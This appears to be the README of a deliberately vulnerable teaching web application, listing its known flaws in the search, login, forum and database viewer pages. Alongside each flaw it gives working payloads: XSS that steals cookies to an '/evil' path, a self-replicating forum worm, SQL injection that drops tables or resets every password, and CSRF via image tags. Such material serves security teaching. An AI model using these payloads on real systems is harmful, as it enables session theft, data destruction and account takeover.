 # Web Playground
A web application demonstrating web vulnerabilities. Testing XSS, script injection, SQL injection,...

# Known issues

Here is a list of all known voulnarbilities on the site

## Search

1. XSS: When displaying "You searched for <string>" the string is not properly
escaped.
   * Test for XSS: `<script> alert("XSS!") </script>`
   * Change all links: `Facebook <script> $(function(){$("a").attr("href", "/evil");}); </script>`
   * __Steal cookies__: `<script> $.get("/evil?save=cookie&cookie="+encodeURI(document.cookie)); </script>`
2. SQL Injection: SQL query is manually created and not properly escaped.
   * Test shows stack trace and actual code: `'`
   * See all hidden links: `aaa ' OR hide=1 OR hide='`

## Login

1. Remember password: Browser can preload your saved passwords.
   * You can inspect the password input field and change type from `password` to
   `text` and the saved password will be visible.
2. GET: Using GET method instead of POST
   * Everyone can see all the posted data i.e. username and password in the URL
3. CSRF: site does not check for origin of the request
   * You can click a link (or not) and be logged in as someone else
4. __SQL injection: SQL query not properly escaped__
   * Test shows stack trace and actual code: `'`
   * Delete tables: `'); DROP TABLE users;('`
   * Change all passwords: `'); UPDATE users SET password='funfun';`

## Forum

1. GET: Using GET method instead of POST
   * No re-confirmation when reloading a page. You simply re-post.
2. CSRF: site does not check for origin of the request
   * Images can cause damage: `<img src='/forum?action=new&title=XSS&content=imageXSS'/>`
3. XSS: Many things not escaped. Title, content, user's name.
   * Self replicating post:
      ```HTML
      <span class="xss">
          Tekst?
          <script>
              $.get('?action=new&title=XSS&content='+
                    encodeURIComponent($(".xss")[0].outerHTML));
          </script>
      </span>
      Quil?
      <script>
          var prog = "Quil?<script>var prog = @;$.get('?action=new&title=XSS&content='+encodeURIComponent(prog.replace('@', prog)+'t>'));</scrip";
          $.get('?action=new&title=XSS&content='+
                encodeURIComponent(prog.replace('@', prog)+'t>'));
      </script>
      ```
   * __Steal cookies__: `<script> $.get("/evil?save=cookie&cookie="+encodeURI(document.cookie)); </script>`

## Database viewer (/db_viewer_XDSie983BQbnxc_asjdh)

1. URL change: no sanity checks for url parameters
   * Access all data by changing table name in the url
2. Unaythorized access
   * Anyone with a link can access it
